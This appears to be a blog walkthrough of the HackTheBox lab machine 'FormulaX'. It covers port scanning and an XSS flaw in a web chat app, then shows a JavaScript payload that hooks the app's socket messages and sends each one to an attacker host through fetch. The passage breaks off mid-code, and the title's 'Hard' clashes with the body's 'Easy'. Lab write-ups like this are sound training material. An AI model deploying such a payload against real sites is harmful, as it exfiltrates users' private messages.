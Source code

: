 ```yaml
---
layout: post
title: "FormulaX-Linux-Hard"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/897faece9f60bf69d8e109833f63da48.webp
---
```


# FormulaX

HackTheBox: Easy

## 1: Enumeration
<br/><br/>
- nmap scanning
<br/><br/>
![Untitled]({{ '/assets/images/9ed6ffc6-a6a0-4445-926d-d1c01568c2ad-export-884a5725-04bb-409c-b07a-2f0e9ce7c9e2/9ed6ffc6-a6a0-4445-926d-d1c01568c2ad-export-884a5725-04bb-409c-b07a-2f0e9ce7c9e2_Untitled.png' | relative_url }})
<br/><br/>
There is a http service, and ssh running, we may need to find some credentials to log on.
<br/><br/>
![Untitled]({{ '/assets/images/9ed6ffc6-a6a0-4445-926d-d1c01568c2ad-export-884a5725-04bb-409c-b07a-2f0e9ce7c9e2/9ed6ffc6-a6a0-4445-926d-d1c01568c2ad-export-884a5725-04bb-409c-b07a-2f0e9ce7c9e2_Untitled_1.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/9ed6ffc6-a6a0-4445-926d-d1c01568c2ad-export-884a5725-04bb-409c-b07a-2f0e9ce7c9e2/9ed6ffc6-a6a0-4445-926d-d1c01568c2ad-export-884a5725-04bb-409c-b07a-2f0e9ce7c9e2_Untitled_2.png' | relative_url }})
<br/><br/>
Here we found the html and js files it will help us to understand the functionality of the web application.
<br/><br/>
![Untitled]({{ '/assets/images/9ed6ffc6-a6a0-4445-926d-d1c01568c2ad-export-884a5725-04bb-409c-b07a-2f0e9ce7c9e2/9ed6ffc6-a6a0-4445-926d-d1c01568c2ad-export-884a5725-04bb-409c-b07a-2f0e9ce7c9e2_Untitled_3.png' | relative_url }})
<br/><br/>
## 2: User flag
<br/><br/>
![Untitled]({{ '/assets/images/9ed6ffc6-a6a0-4445-926d-d1c01568c2ad-export-884a5725-04bb-409c-b07a-2f0e9ce7c9e2/9ed6ffc6-a6a0-4445-926d-d1c01568c2ad-export-884a5725-04bb-409c-b07a-2f0e9ce7c9e2_Untitled_4.png' | relative_url }})
<br/><br/>
Digging into the web application we realize this section with a XSS vulnerability
<br/><br/>
![Untitled]({{ '/assets/images/9ed6ffc6-a6a0-4445-926d-d1c01568c2ad-export-884a5725-04bb-409c-b07a-2f0e9ce7c9e2/9ed6ffc6-a6a0-4445-926d-d1c01568c2ad-export-884a5725-04bb-409c-b07a-2f0e9ce7c9e2_Untitled_5.png' | relative_url }})
<br/><br/>
Using the same code that we analyze early we will use it to disclose information using the server response
<br/><br/>
```jsx
let value;
const res = axios.get(`/user/api/chat`);
const socket = io('/',{withCredentials: true});
//listening for the messages
socket.on('message', (my_message) => {  
//console.log("Received From Server: " + my_message)  
// Show_messages_on_screen_of_Server(my_message)  
fetch("http://ip/tricp" + my_message );
})
// rewrite the typing_chat function to only send message 'history'
const typing_chat_new = () => {  
value = "history"; 
//document.getElementById('user_message').value  
if (value) {    
```